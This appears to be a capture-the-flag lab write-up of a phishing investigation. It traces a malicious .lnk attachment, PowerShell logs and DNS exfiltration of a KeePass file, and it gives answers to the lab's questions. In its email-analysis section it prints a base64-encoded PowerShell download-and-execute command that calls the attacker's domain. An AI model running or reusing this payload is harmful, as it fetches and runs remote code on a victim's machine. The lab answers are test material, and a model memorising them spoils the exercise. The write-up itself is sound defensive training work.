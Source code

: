 ## Overview

### The Boogeyman is here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

![image](https://github.com/user-attachments/assets/881e4709-5ae7-408c-bb19-d2e6ef505087)

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.

## Email Analysis

This beginning analysis is pretty straightforward. All information can be found viewing the email using the application or looking at the text version format of the email. We can also use mxtoolbox and copy/paste the header to have it analzyed as well. 


### What is the email address used to send the phishing email?
agriffin@bpakcaging[.]xyz

### What is the email address of the victim?
julianne[.]westcott@hotmail[.]com

### What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?
elasticemail

### What is the name of the file inside the encrypted attachment?
Invoice_20230103.lnk

### What is the password of the encrypted attachment?
Invoice2023!

### Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?
Used the lnkparse tool on the downloaded lnk file to find cmd arguments.

aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==



## Endpoint Security

Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:
A PowerShell command was executed.
Decoding the payload reveals the starting point of endpoint activities. 

### Investigation Guide
With the following discoveries, we should now proceed with analysing the PowerShell logs to uncover the potential impact of the attack:
Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.
Since the given data is JSON, we can parse it in CLI using the jq command.
Note that some logs are redundant and do not contain any critical information; hence can be ignored.


### What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)
Here we will take the syntax provided and tack on scriptblocktext and parse through to find the two domains. cdn.bpakcaging.xyz,files.bpakcaging.xyz
![Screenshot 2024-10-01 085336](https://github.com/user-attachments/assets/003069a3-9e89-4356-9c91-616a019f9c50)


### What is the name of the enumeration tool downloaded by the attacker?
The same text has the answer below

![Screenshot 2024-10-01 094017](https://github.com/user-attachments/assets/e2bbd076-fd36-44ee-9d6f-48696f9559b0)


### What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.
Here we added onto the filter to follow the keywords “sq3.exe” and “cd” to follow the path
![Screenshot 2024-10-01 110955](https://github.com/user-attachments/assets/1cf529a6-50a2-42a8-b28f-8df5e1f38204)


### What is the software that uses the file in Q3?
Just looking back on the path we can see the answer: Microsoft Sticky Notes

### What is the name of the exfiltrated file?
Using our initial filter we can find this information in the beginning.
![Screenshot 2024-10-01 112027](https://github.com/user-attachments/assets/e363fb61-f240-4af8-82da-0d86589a2c87)


### What type of file uses the .kdbx file extension?
A google search should work here: KeePass

### What is the encoding used during the exfiltration attempt of the sensitive file?
Initial filter shows this info: hex
![Screenshot 2024-10-01 112253](https://github.com/user-attachments/assets/a4e11d66-bac2-4f99-9980-fe2a82b36348)


### What is the tool used for exfiltration?
Our image for our last question shows this as well: nslookup



## Network Traffic Analysis
Based on the PowerShell logs investigation, we have seen the full impact of the attack:
The threat actor was able to read and exfiltrate two potentially sensitive files.
The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.

### Investigation Guide
Finally, we can complete the investigation by understanding the network traffic caused by the attack:
Utilise the domains and ports discovered from the previous task.
All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
Follow the streams of the notable commands discovered from PowerShell logs.
Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.

### What software is used by the attacker to host its presumed file/payload server?
We can search for files.bpakcaging.xyz, and filter for http, then follow the tcp stream
![Screenshot 2024-10-01 113319](https://github.com/user-attachments/assets/3488ee77-486b-48f2-b548-19c85bab0899)


### What HTTP method is used by the C2 for the output of the commands executed by the attacker?
The output of the commands by the attacker are POST.

### What is the protocol used during the exfiltration activity?
We saw that DNS lookup was used to exfiltrate the file.

### What is the password of the exfiltrated file?
We know that sq3.exe was used to touch the plum file, filtering for this, http contains “sq3.exe” and following the tcp path, we can manually look at the next packet and find the password and decode it.

### What is the credit card number stored inside the exfiltrated file?
This was pretty difficult. I had trouble trying to figure out how to decode and output the file in order input the password. I ended up looking online for some syntax and found this.

$$ tshark -r capture.pcapng -Y "ip.dst==167.71.211.113 and dns" -T fields -e dns.qry.name | grep -E '[A-F0-9]+.bpakcaging.xyz$' | cut -d'.' -f1 | tr -d '\n' | xxd -p -r > protected_data.kdbx

Found out this was what I was missing intially.

 `| xxd -p -r > sometextfile `
- **`xxd -p -r`**: Converts the hexadecimal string back into binary data.
  - `-p`: Specifies plain (hex) mode.
  - `-r`: Reverses the process, converting hex to binary.









